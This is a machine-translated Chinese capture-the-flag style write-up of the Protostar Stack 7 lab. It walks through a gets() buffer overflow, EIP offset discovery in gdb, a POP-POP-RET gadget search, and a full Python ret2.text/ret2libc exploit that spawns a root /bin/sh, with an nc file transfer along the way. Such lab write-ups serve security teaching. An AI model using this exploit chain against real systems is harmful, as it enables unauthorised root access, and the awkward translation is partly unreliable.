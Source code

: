 # [ExpDev]漏洞利用练习|原恒星|堆栈 7

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-stack-7-fea3ac85ffe7?source=collection_archive---------2----------------------->

![](img/5daa8834def48d98dfe4517172fa1f79.png)

# 堆栈 7 (ret2.text)

此挑战的目标是绕过对返回地址的限制，并导致任意代码执行。对返回地址的限制将阻止我们使用任何以`0xb`开头的地址。

所以从[栈 6](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) 写起，由于我们无法使用栈中的任何地址(`0xbf`)，我们利用 ret2libc 技术利用了一个 libc 小工具(位于`0xb7`)。然而，对于栈 7，我们也被限制一起使用位于`0xb`的任何地址。

为了避免这一点，我们将利用另一种称为 return to 的面向返回的编程(“ROP”)技术。文本(" ret2.text ")。

*   链接:[https://exploit-exercises.lains.space/protostar/stack7/](https://exploit-exercises.lains.space/protostar/stack7/)

![](img/b5ba61954296f4aa475765920b313d78.png)

## 注意事项

*   `gets(buffer);`:弱势群体。它从 stdin 中读取一行，但不检查缓冲区溢出→这容易受到 BOF 类型的攻击。
*   `char buffer[64];`:这将我们的缓冲长度限制为 64 字节。→我们可以输入超过 64 个字节来引起 BOF。
*   `if((ret & 0xb0000000) == 0xb0000000)`:这是对在`0xb0000000 — 0xbfffffff`位置之间使用任何返回地址的限制。(请查看我的 [Stack 6](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) 文章，了解程序是如何限制使用这些地址的。)

![](img/5af7b957d116c3906ebd9bf459f9e3a5.png)

# 漏洞利用(ret2.text)

为了规避这种类型的限制，我们可以利用 ROP 链攻击，特别是 ret2.text 技术。简单地说，由于我们对跳转到任何堆栈或 libc 地址都有限制，我们可以转而跳转到程序的`.text`部分(=程序的 ASM 代码所在的地方)并利用一个特殊的小工具(=以`POP, POP, RET`的`RET`结尾的一小段指令序列)来获得代码执行。

为此，我们需要具备以下先决条件:

1.  ✅获得对筹码的完全控制权`EIP`。
2.  ✅在程序上找到可用的`POP, POP, RET`小工具。
3.  需要禁用✅数据执行保护(“DEP”)。

## 寻找 EIP 偏移

让我们创建一个 python 脚本来找到我们可以控制的偏移值`EIP`:

```
#!/usr/bin/pythonpadding = "A" * 70
padding+= "BBBBCCCCDDDDEEEEFFFFGGGG"print padding
```

然后，在一个文件中创建一个漏洞利用的输出，以便我们可以用 gdb 运行它。

```
$ python exploit.py > /tmp/stack7/exploit
```

现在，运行 gdb 并提供漏洞文件。

```
**$ gdb -q stack7**
  Reading symbols from /opt/protostar/bin/stack7...done.
**(gdb) break * main**
  Breakpoint 1 at 0x804854b: file stack7/stack7.c, line 28.
**(gdb) run < /tmp/stack7/exploit**
  Starting program: /opt/protostar/bin/stack7 < /tmp/stack7/exploit Breakpoint 1, main (argc=1, argv=0xbffff854) at stack7/stack7.c:28
  28 in stack7/stack7.c
**(gdb) continue**
  Continuing.
  input path please: got path
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADDEEAABBBBCCCCDDDDEEEEFFFFGGGG Program received signal SIGSEGV, Segmentation fault.
 **0x45454444** in ?? ()
```

“0x44”和“0x45”在 ASCII 表示中分别是“D”和“E”。因此，偏移量为 80 (= 70 + "BBBBCCCCDD ")。

```
**...
(gdb) continue**
  Continuing.  Program received signal SIGSEGV, Segmentation fault.
  **0x44444343** in ?? ()                             
**(gdb) info registers** eax            0x804a008 134520840
  ecx            0x0 0
  edx            0x3 3
  ebx            0xb7fd7ff4 -1208123404
  esp            0xbffff7a0 0xbffff7a0
  ebp            0x44444343 0x44444343
  esi            0x0 0
  edi            0x0 0
  **eip            0x45454444 0x45454444       <---- EIP Overflowed**
  eflags         0x210206 [ PF IF RF ID ]
```

此外，现在我们可以在崩溃时控制`EIP`,这意味着我们可以跳转到堆栈中我们希望的任何位置。

## 查找 POP POP RET 小工具

网站上的提示说，我们可以很容易地利用名为“msfelfscan”的工具获得合适的指令。让我们先把栈 7 转移到我们的盒子里。

```
**### Moving Stack7****## On your Kali box**
$ nc -lvnp 8000 > stack7**## On the Protostar box**
$ nc 192.168.117.144 8000 < /opt/protostar/bin/stack7
```

一旦它被传输到您的盒子，运行“msfelfscan”来找到`POP, POP, RET`小工具。

```
**### msfelfscan**$ /usr/share/framework2/msfelfscan -s -f stack7
**0x080485c7   edi ebp ret
0x08048492   ebx ebp ret
0x080485f7   ebx ebp ret**
```

## 漏洞脚本

所以现在我们有了上面的 3 个`POP, POP, RET`小工具地址(这 3 个地址中的任何一个都同样有效)。这种黑魔法是这样运作的:

```
**### 🚨 Exploit Execution Flow**1) Padding = "A" * 80
2) EIP = **0x080485c7** (POP, POP, RET)
3) POP = 4 bytes of junk
4) POP = 4 bytes of junk
5) RET = ****JMP to the address that we wish to**
         [Option #1]** "\x90" * 80 + shellcode of /bin/sh **[Option #2]** libc /bin/sh syscall
```

让我们把一切放在一起，创造我们的利用。我们将使用**【选项# 2】**方法以 root 用户身份获得 shell 访问权限:

```
**[exploit.py]**#!/bin/usr/pythonimport structpadding = "A" * 80
padding+= "\xc7\x85\x04\x08"          **# 0x080485c7 (POP, POP, RET)**
padding+= "BBBB"                      **# 1st POP w/ junk**
padding+= "CCCC"                      **# 2nd POP w/ junk****# Using the following to confirm code execution for SIGTRA**P
#padding+= "\xd8\xf7\xff\xbf"         **# 0xbffff7d8 (Middle of NOP)**
#padding+= "\x90" * 80
#padding+= "\xCC" * 4                 **# int3 to cause SIGTRAP****# libc /bin/sh (*Check** [**Stack6**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6) **to see how I got those addresses)**
system = struct.pack("I", 0xb7ecffb0)
ret = "\x90" * 4
shell = struct.pack("I", 0xb7e97000 + 0x11f3bf)print padding + system + ret + shell
```

一旦我们使用`cat`技巧运行上述漏洞利用脚本，无需引入任何外壳代码，我们就可以成功地打开一个具有 root 权限的`/bin/sh`外壳。

```
$ (python /tmp/stack7/exploit.py; cat) | ./stack7
```

![](img/4dbd025722592becf78957eb1d3368fa.png)

感谢阅读！

## 下一个挑战:

*   [**格式 0**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-0-332983bfd388) —格式字符串开发简介

![](img/29d7b05693983916f565e42fc1ce4afe.png)